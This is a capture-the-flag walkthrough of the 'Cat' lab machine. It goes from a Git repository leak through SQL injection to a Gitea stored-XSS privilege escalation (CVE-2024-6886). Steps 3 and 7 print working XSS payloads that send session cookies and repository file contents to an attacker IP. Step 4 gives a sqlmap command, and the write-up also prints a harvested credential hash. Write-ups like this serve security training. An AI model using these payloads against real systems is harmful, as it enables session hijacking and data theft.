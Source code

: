 # Cat

```
Difficulty: Medium
Operating System: Linux
Hints: True
```


### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used                 | Result                                                                                                                                                                                                                                    |
| :--- | :------------ | :----------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | `N/A`         | **Nmap Scan**                  | Performed initial enumeration with **Nmap** to discover open ports. Found ports `22` (SSH) and `80` (HTTP).                                                                                                                               |
| 2    | `N/A`         | **Git Repository Leak**        | Discovered a publicly exposed `.git` directory. Used **`git-dumper`** to download the application source code, which revealed potential vulnerabilities in the code.                                                                      |
| 3    | `N/A`         | **XSS Vulnerability**          | Found that the username was directly output without sanitization in `view_cat.php`. Crafted an XSS payload that sent the administrator's session cookie to our server when viewed, enabling session hijacking.                            |
| 4    | `rosa`        | **SQL Injection on SQLite**    | Identified an unsanitized `catName` parameter in `accept_cat.php`. Used **`sqlmap`** to perform blind SQL injection and extract the `users` table, retrieving `rosa`'s password hash. Cracked it online to obtain the plaintext password. |
| 5    | `rosa`        | **User Access via SSH**        | Logged in as `rosa` using the cracked password. Retrieved `user.txt`.                                                                                                                                                                     |
| 6    | `N/A`         | **Local Port Forwarding**      | Forwarded port `3000` (internal Git service, Gitea v1.22.0) via SSH to local machine to analyze the internal service.                                                                                                                     |
| 7    | `N/A`         | **Stored XSS (CVE-2024-6886)** | Exploited a known Stored XSS in Gitea. Sent an email containing a malicious payload to the administrator (`jobert`) which exfiltrated the employee-management repository data, exposing sensitive files.                                  |
| 8    | `root`        | **Sensitive Data Exposure**    | Extracted the root password from the employee-management repository’s index.php file. Used this password to switch to `root` and retrieve `root.txt`.                                                                                     |


##  Step 1 – Initial Enumeration

**Nmap Scan:**

```bash
nmap -sC -sV cat.htb
```

**Result:**

```
22/tcp  open  ssh
80/tcp  open  http
```

* Port 80 is hosting a web server, possibly WordPress.
* SSH is available but no credentials yet.

---

##  Step 2 – Git Repository Leak

Browsing `http://cat.htb/.git/` revealed a publicly exposed Git repository.

**Dump the Git repo:**

```bash
git-dumper http://cat.htb/.git/ ./catgit
```

This revealed full application source code.

---

##  Step 3 – XSS Vulnerability

In `view_cat.php`, the code outputs the username directly without sanitization:

```php
<h1>Cat Details: <?php echo $cat['cat_name']; ?></h1>
<img src="<?php echo $cat['photo_path']; ?>" alt="<?php echo $cat['cat_name']; ?>" class="cat-photo">
```

### Attack Path:

* Register a new account with a username crafted as an XSS payload:

```html
<img src=1 onerror=this.src="http://10.10.xx.xx/?ccc="+encodeURIComponent(document.cookie)>
```

* Upload a random picture via `contest.php`.
* Wait for the administrator to visit and trigger the XSS.
* Captured session cookie is forwarded to our listener.

---

##  Step 4 – SQL Injection (SQLite)

In `accept_cat.php`:

```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
```

This is vulnerable to SQL Injection.

**Exploit using sqlmap:**

```bash
sqlmap -u "http://cat.htb/accept_cat.php" \
  --cookie="PHPSESSID=your_session_id" \
  --data="catId=1&catName=123" \
  -p catName \
  --dbms=SQLite \
  --level=5
```

**Result:**

Discovered the `users` table containing credentials:

```
rosamendoza485@gmail.com : ac369922d560f17d6eeb8b2c7dec498c
```

Password was cracked online via [CrackStation](https://crackstation.net/).

---

##  Step 5 – User Access (rosa)

With the cracked password, logged in as `rosa`.

```bash
ssh rosa@cat.htb
```

### Found user.txt:

```bash
cat /home/rosa/user.txt
```

---

##  Step 6 – Local Port Forwarding

Found port `3000` open internally, running a Git service (Gitea v1.22.0).

**Forward the port:**

```bash
ssh -L 3000:127.0.0.1:3000 rosa@cat.htb
```

Access Gitea at `http://127.0.0.1:3000`.

---

##  Step 7 – Privilege Escalation via Stored XSS (CVE-2024-6886)

Identified a known vulnerability in Gitea v1.22.0 (Stored XSS).

### Attack steps:

* Send an email from `axel@localhost` to `jobert@localhost` containing a malicious link:

```bash
swaks --to "jobert@localhost" --from "axel@localhost" \
  --header "Click" --body "http://localhost:3000/axel/xss" \
  --server localhost
```

* The admin clicks the link, triggering XSS.
* Payload fetches sensitive files:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.xx.xx/?content='+encodeURIComponent(data)))">XSS test</a>
```

* Exfiltrated the employee-management index.php containing the root password.

---

##  Step 8 – Root Access

Used the obtained password from index.php to escalate to root:

```bash
su -
# Enter password from index.php
```

Obtained `root.txt`:

```bash
cat /root/root.txt
```

---

## Summary

* **User:** Found git leak → XSS cookie theft → SQLi to get rosa's credentials → Log into rosa → Found user.txt.
* **Root:** Port 3000 forwarded → Gitea (v1.22.0) XSS exploit → Admin accessed repository → Index file disclosed root password → Got root.txt.

